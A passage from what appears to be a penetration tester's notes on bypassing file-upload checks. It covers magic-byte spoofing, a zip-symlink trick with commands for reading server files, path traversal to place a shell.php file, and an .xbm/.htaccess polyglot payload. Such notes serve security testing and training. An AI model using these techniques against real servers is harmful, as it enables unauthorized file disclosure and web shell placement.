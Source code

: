 **How to proceed**
1. Choose the signature you want to mimic
2. Open the file in a text editor and add as many `A` as signature bytes
3. Open the file with `hexeditor` and edit the first bytes with the custom MIME Type

# Zip upload

> [!NOTE] Unsecure deflation
> When ZIPs are decompressed in the back-end and the decompression is unsecure, ou can upload an archive containing symlinks
> So, when the archive is decompressed, it keeps Unix symlinks, leading to information disclosure
> Note that you will need a read access on uploaded file after it has been uploaded

```bash
# In this scenario, I could upload ZIP and the uncompressed files are visible at /uploads/<zipfilename>/<filenames>
ln -s ../../index.php symindex.txt    # You want to read /index.php 
zip --symlinks test.zip symindex.txt  # Compress the archive with symlinks conservation
# upload the `test.txt` archive
# Go to /uploads/test.zip/symindex.txt
```


> [!Tips] Tips
> - The last extension is the understood one

# Path traversal

- The filename can be edited through BurpSuite to start with a relative path


> [!NOTE] Path traversal
> - In BurpSuite, rename `shell.php` to `../../shell.php` to upload it in the relative directory 
> - This will require a vulnerable file upload back-end, of course

# Polyglot files

> _“In computing, a polyglot is a computer program or script written in a valid form of multiple programming languages, which performs the same operations or output independent of the programming language used to compile or interpret it.”_

Ref : [http://php.net/manual/en/function.exif-imagetype.php](http://php.net/manual/en/function.exif-imagetype.php)

#### HTACCESS x XBM

> `.xbm` format is interesting because 
> 1.  It is interpreted as an image
> 2. The first two lines define height and width and start with `#` which is the `.htaccess` comment character

**`.xbm` x `.htaccess` example**
```bash
#define test_width 1337
#define test_height 1337
<Files ".htaccess">
    Require all granted
</Files>
```
